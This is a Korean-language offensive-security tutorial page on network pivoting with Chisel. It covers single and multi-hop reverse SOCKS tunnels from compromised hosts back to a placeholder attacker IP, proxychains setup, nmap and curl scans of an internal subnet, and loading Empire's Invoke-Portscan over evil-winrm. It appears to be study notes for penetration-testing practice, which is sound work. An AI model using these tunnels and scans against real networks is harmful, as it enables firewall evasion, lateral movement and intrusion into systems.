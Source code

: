 ```yaml
---
layout: page
title: Pivoting_Guide
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


# 피버팅 및 터널링 가이드 (Chisel 활용)

피버팅(Pivoting)은 공격자가 이미 장악한 시스템(Pivot)을 발판 삼아, 직접 접근할 수 없는 다른 네트워크 대역(내부망)으로 공격 범위를 확장하는 핵심적인 측면 이동(Lateral Movement) 기술입니다. 이 가이드는 강력한 터널링 도구인 `Chisel`을 중심으로 피버팅의 개념과 실제 적용 방법을 설명합니다.

- **[Chisel GitHub 링크](https://github.com/jpillora/chisel)**

---

### **1. 핵심 개념: 리버스 터널링 (Reverse Tunnelling)**

`Chisel`의 가장 강력한 기능은 **리버스(Reverse)** 방식입니다. 방화벽은 보통 외부에서 내부로 들어오는 인바운드(Inbound) 연결은 차단하지만, 내부에서 외부로 나가는 아웃바운드(Outbound) 연결은 허용하는 경우가 많습니다. 리버스 터널링은 이 점을 이용하여, 공격 대상 네트워크의 Pivot 장비가 **클라이언트(Client)**가 되어 공격자의 서버에 접속을 요청하고, 공격자는 **서버(Server)** 역할을 하여 연결을 수락함으로써 터널을 생성합니다. 이를 통해 방화벽을 쉽게 우회하고 안정적인 연결을 확보할 수 있습니다.

---

### **2. 단일 피벗 (Single Pivot)**

- **시나리오:** 공격자(Kali)가 인터넷에 노출된 웹 서버(Pivot)를 장악했고, 이 웹 서버를 통해 내부망(10.200.180.0/24)에 접근하고자 합니다.

#### **1단계: 공격자 머신 - Chisel 서버 실행**
```bash
# --reverse: 클라이언트로부터의 리버스 연결을 허용
./chisel server -p 9001 --reverse
```

#### **2단계: Pivot 장비 - Chisel 클라이언트 실행**
- 먼저 `chisel` 바이너리를 Pivot 장비에 업로드해야 합니다.
```bash
# <attacker_ip>:9001: 공격자 Chisel 서버에 접속
# R:socks: 원격(공격자) 측에 SOCKS 프록시를 생성하라는 의미. 
#         (R은 Remote의 약자로, 클라이언트 입장에서의 Remote는 서버를 의미)
./chisel client <attacker_ip>:9001 R:socks
```
- 이 명령이 실행되면, 공격자 머신의 `127.0.0.1:1080`에 SOCKS5 프록시가 생성됩니다. (기본 포트 1080)

#### **3단계: 공격자 머신 - Proxychains 설정**
- `/etc/proxychains4.conf` 파일의 맨 아래에 Chisel이 생성한 SOCKS 프록시를 추가합니다.
```ini
[ProxyList]
socks5 127.0.0.1 1080
```

#### **4단계: 내부망 정찰**
- 이제 `proxychains`를 명령어 앞에 붙이면, 모든 트래픽이 터널을 통해 Pivot 장비를 거쳐 내부망으로 전달됩니다.
```bash
# Proxychains를 통해 내부망의 다른 호스트(10.200.180.150)를 스캔
proxychains nmap -sT -Pn -p 22,80,445 10.200.180.150

# 내부 웹 서버에 접근
proxychains curl http://10.200.180.150
```

---

### **3. 다중 피벗 (Multi-hop Pivot)**

- **시나리오:** 공격자 -> Pivot 1 -> Pivot 2 -> 내부망 타겟
- **원리:** 각 Pivot 장비는 이전 장비를 향한 `chisel client`인 동시에, 다음 장비를 위한 `chisel server` 역할을 수행합니다.
- **참고 다이어그램:** [[Multi-hope pivoting diagram]]

#### **단계별 Chisel 명령어**

1.  **공격자 Kali:**
    ```bash
    # 최종 목적지로부터의 연결을 받을 서버 (포트 9001)
    ./chisel server -p 9001 --reverse
    ```

2.  **Pivot 1:**
    ```bash
    # 1. Kali의 서버(9001)에 접속하여 첫 번째 터널 생성 (공격자 쪽에 9999 포트로 프록시 생성)
    ./chisel client <Kali_IP>:9001 R:9999:socks

    # 2. Pivot 2의 접속을 받을 새로운 서버 실행 (포트 9002)
    ./chisel server -p 9002 --reverse
    ```

3.  **Pivot 2:**
    ```bash
    # Pivot 1의 서버(9002)에 접속하여 두 번째 터널 생성 (공격자 쪽에 8888 포트로 프록시 생성)
    ./chisel client <Pivot1_IP>:9002 R:8888:socks
    ```

4.  **공격자 Proxychains 설정:**
    - `/etc/proxychains4.conf`에 모든 프록시를 순서대로 추가합니다.
    ```ini
    #[ProxyList]
    socks5 127.0.0.1 9999
    socks5 127.0.0.1 8888
    ```

---

### **4. PowerShell을 이용한 내부망 포트 스캔**

- **상황:** `evil-winrm` 등으로 Windows Pivot 장비에 접속했으며, `proxychains`를 사용하기 어려운 경우.
- **전략:** Pivot 장비 자체에서 PowerShell 스크립트를 이용해 내부망을 스캔합니다.
- **[스크립트 링크](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/situational_awareness/network/Invoke-Portscan.ps1)**

```powershell
# 1. evil-winrm의 upload 기능을 이용해 Invoke-Portscan.ps1 스크립트 업로드

# 2. 스크립트를 현재 세션으로 로드
Import-Module .\Invoke-Portscan.ps1

# 3. 내부망의 다른 호스트를 대상으로 상위 50개 포트 스캔
Invoke-Portscan -Hosts 10.200.180.100 -TopPorts 50
```